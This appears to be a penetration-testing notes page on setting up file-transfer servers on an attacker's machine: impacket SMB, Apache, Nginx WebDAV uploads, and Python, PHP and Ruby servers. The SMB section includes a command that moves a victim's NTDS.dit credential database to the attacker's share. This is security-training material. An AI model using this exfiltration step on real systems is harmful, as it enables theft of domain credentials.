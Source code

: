 ```yaml
---
title: Setting up servers
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - servers
  - file transfer
---
```


# Setting up a server (in the attacking machine)

| **Protocol / app** |
| --- |
| [smb server](#smb-server) |
| [Apache server](#apache-server) |
| [ngix](#ngix) |
| [symple python server](#simple-python-server) |
| [php web server](#php-web-server) |
| [Ruby web server](#ruby-web-server) |
| Burp Suite Collaborator |
| [Interactsh](interactsh.md) | 

## smb server

[Launch smbserver in our attacker machine](smbserver.md):

```bash
sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py -smb2support CompData /home/username/Documents/
```

Now, from PS in the victim's windows machine we could upload a folder to the shared folder in the attacker machine just by running:

```powershell
cmd.exe /c move C:\NTDS\NTDS.dit \\$ip\CompData
```


## Apache server

Once you have a folder structure such as "/var/www/" or "/var/www/html", and also an Apache server installed, you can serve all files from that path by initiating the service:

```bash
# Start Apache
service apache2 start

# Stop Apache
service apache2 stop

# Restart Apache
service apache2 restart

# See status of Apache server
service apache2 status
```

In Apache, the PHP module loves to execute anything ending in PHP. Also, by default, with Apache, if we hit a directory without an index file (index.html), it will list all the files.

## Nginx

In Apache, the PHP module loves to execute anything ending in PHP. This is not very safe when allowing `HTTP` uploads, as we are trying to avoid that users cannot upload web shells and execute them.

```bash
# Create a Directory to Handle Uploaded Files
sudo mkdir -p /var/www/uploads/SecretUploadDirectory

# Change the Owner to www-data
sudo chown -R www-data:www-data /var/www/uploads/SecretUploadDirectory

# Create Nginx Configuration File by creating the file /etc/nginx/sites-available/upload.conf with the contents:
server {
    listen 9001;
    
    location /SecretUploadDirectory/ {
        root    /var/www/uploads;
        dav_methods PUT;
    }
}

# Symlink our Site to the sites-enabled Directory
sudo ln -s /etc/nginx/sites-available/upload.conf /etc/nginx/sites-enabled/

# Start Nginx
sudo systemctl restart nginx.service

# If we get any error messages, check /var/log/nginx/error.log. we might see, for instance, port 80 is already in use.
```

Debuggin nginx:

First check: ensure the directory listing is not enabled by navigating to http://localhost/SecretUploadDirectory

Second check: Is default port in nginx already in use?

```bash
# Verifying Errors
tail -2 `/var/log/nginx/error.log`
# and we might check that port 80 could not be binded because is already in use

# See which service is using port 80
ss -lnpt | grep `80`
# we will obtain the service and also the pid. For instance `2811`

# Check pid, for instance pid 2811, and see who is running it
ps -ef | grep "2811"

# Remove NginxDefault Configuration to get around this, we can remove the default Nginx configuration, which binds on port 80.
sudo rm /etc/nginx/sites-enabled/default
```

Finally you can copy to your nging server all files you want to transfer with curl:

```bash
curl -T file.txt
# -T, --upload-file <file>; This transfers the specified local file to the remote URL. -T uses PUT http method
```


## Simple python server

```shell-session
# Creating a Web Server with Python3
cd /tmp
python3 -m http.server 8000

# Creating a Web Server with Python2.7
python2.7 -m SimpleHTTPServer
```


##  PHP web server

```shell-session
php -S 0.0.0.0:8000
```


## Ruby Web Server

```shell-session
ruby -run -ehttpd . -p8000
```


